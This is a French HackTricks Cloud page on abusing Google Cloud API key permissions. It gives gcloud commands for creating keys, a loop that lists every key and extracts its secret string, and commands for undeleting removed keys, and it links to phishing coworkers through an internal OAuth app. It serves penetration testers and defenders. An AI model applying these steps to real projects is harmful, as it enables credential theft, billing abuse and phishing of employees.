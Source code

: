 # GCP - Élévation de privilèges des clés API

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Clés API

Les autorisations suivantes sont utiles pour créer et voler des clés API, pas celles des documents : _Une clé API est une chaîne chiffrée simple qui **identifie une application sans aucun principe**. Elles sont utiles pour accéder à des **données publiques de manière anonyme**, et sont utilisées pour **associer** les requêtes API à votre projet pour le quota et la **facturation**._

Par conséquent, avec une clé API, vous pouvez faire payer cette entreprise pour votre utilisation de l'API, mais vous ne pourrez pas élever les privilèges.

Pour plus d'informations sur les clés API, consultez :

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

Pour d'autres façons de créer des clés API, consultez :

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### Forcer l'accès à la clé API <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Comme vous pourriez ne pas savoir quelles API sont activées dans le projet ou les restrictions appliquées à la clé API que vous avez trouvée, il serait intéressant d'exécuter l'outil [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) et de vérifier **ce à quoi vous pouvez accéder avec la clé API.**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Cette autorisation permet de **créer une clé API** :
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
Vous pouvez trouver un script pour automatiser la [**création, l'exploitation et le nettoyage d'un environnement vulnérable ici**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
Notez que par défaut, les utilisateurs ont des autorisations pour créer de nouveaux projets et ils se voient accorder le rôle Propriétaire sur le nouveau projet. Ainsi, un utilisateur pourrait **créer un projet et une clé API à l'intérieur de ce projet**.
{% endhint %}

### `apikeys.keys.getKeyString`, `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Ces autorisations permettent de **list et obtenir toutes les clés API et d'obtenir la clé** :
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
Vous pouvez trouver un script pour automatiser la [**création, l'exploitation et le nettoyage d'un environnement vulnérable ici**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Ces autorisations vous permettent de **list et régénérer les clés API supprimées**. La **clé API est donnée en sortie** après l'exécution de **undelete**:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Créer une application OAuth interne pour phishing d'autres travailleurs

Consultez la page suivante pour apprendre comment faire cela, bien que cette action appartienne au service **`clientauthconfig`** [selon la documentation](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}
